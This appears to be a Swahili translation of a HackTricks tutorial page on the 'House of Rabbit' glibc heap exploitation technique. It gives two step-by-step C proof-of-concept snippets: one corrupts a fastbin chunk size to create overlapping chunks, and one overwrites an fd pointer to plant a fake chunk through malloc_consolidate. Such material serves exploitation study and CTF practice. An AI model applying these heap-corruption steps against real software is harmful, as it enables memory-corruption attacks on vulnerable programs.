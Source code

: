 # Nyumba ya Sungura

{% hint style="success" %}
Jifunze & zoezi la Kuvamia AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & zoezi la Kuvamia GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya GCP (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

### Mahitaji

1. **Uwezo wa kubadilisha kidole cha mbele cha fast bin fd au ukubwa**: Hii inamaanisha unaweza kubadilisha kidole cha mbele cha kipande katika fastbin au ukubwa wake.
2. **Uwezo wa kuzindua `malloc_consolidate`**: Hii inaweza kufanywa kwa kutoa kipande kikubwa au kufunga kipande cha juu, ambacho kinasababisha kufunga vipande vya heap.

### Malengo

1. **Kuunda vipande vinavyolingana**: Ili kuwa na kipande kimoja kifunike kingine, kuruhusu mabadiliko zaidi ya heap.
2. **Kufanya vipande vya uwongo**: Kudanganya mpangishaji ili atambue kipande cha uwongo kama kipande halali wakati wa shughuli za heap.

## Hatua za shambulio

### POC 1: Badilisha ukubwa wa kipande cha fast bin

**Lengo**: Unda kipande kinachofunika kwa kubadilisha ukubwa wa kipande cha fastbin.

* **Hatua 1: Kutenga Vipande**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
Tunagawa vipande viwili vya herufi 0x40 kila kimoja. Vipande hivi vitawekwa kwenye orodha ya kontena ya haraka baada ya kuachiliwa. 

* **Hatua 2: Fungua Vipande**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
### Hatua ya 3: Badilisha Ukubwa wa Kipande
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
Tunabadilisha metadata ya ukubwa wa `chunk1` kuwa 0xa1. Hii ni hatua muhimu ya kudanganya mpangishaji wakati wa kufanya ujumuishaji.

* **Hatua 4: Anzisha `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Kutenga kipande kikubwa kunaanzisha kazi ya `malloc_consolidate`, ikifunga vipande vidogo kwenye bakuli la haraka. Ukubwa uliobadilishwa wa `chunk1` unasababisha kufunika na `chunk2`.

Baada ya kufunga, `chunk1` inafunika na `chunk2`, ikiruhusu unyonyaji zaidi.

### POC 2: Badilisha kidude cha `fd`

**Lengo**: Unda kipande bandia kwa kubadilisha kidude cha `fd` kwenye bakuli la haraka.

* **Hatua 1: Kutenga Vipande**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Maelezo**: Tunatenga vipande viwili, kimoja kidogo na kingine kikubwa, ili kuweka kiwango cha rundo kwa ajili ya kipande bandia.

* **Hatua 2: Unda kipande bandia**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Hatua ya 3: Fungua `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Maelezo**: Tunafuta `chunk1`, tukiiongeza kwenye orodha ya fastbin.

* **Hatua 4: Badilisha `fd` ya `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Maelezo**: Tunabadilisha kiashiria cha mbele (`fd`) cha `chunk1` ili kielekeze kwenye kipande chetu bandia ndani ya `chunk2`.

* **Hatua 5: Chochote `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Kutenga kipande kikubwa tena husababisha `malloc_consolidate`, ambayo huprocess kipande bandia.

Kipande bandia huingizwa kwenye orodha ya fastbin, ikifanya iwe kipande halali kwa ajili ya uchunguzi zaidi.

### Muhtasari

Mbinu ya **House of Rabbit** inahusisha kubadilisha ukubwa wa kipande cha fast bin ili kuunda vipande vinavyolingana au kudhibiti kielekezi cha `fd` ili kuunda vipande bandia. Hii inaruhusu wachomozaji kuunda vipande halali kwenye rundo, kuruhusu aina mbalimbali za uchunguzi. Kuelewa na kufanya mazoezi ya hatua hizi kutaboresha ujuzi wako wa uchunguzi wa rundo.
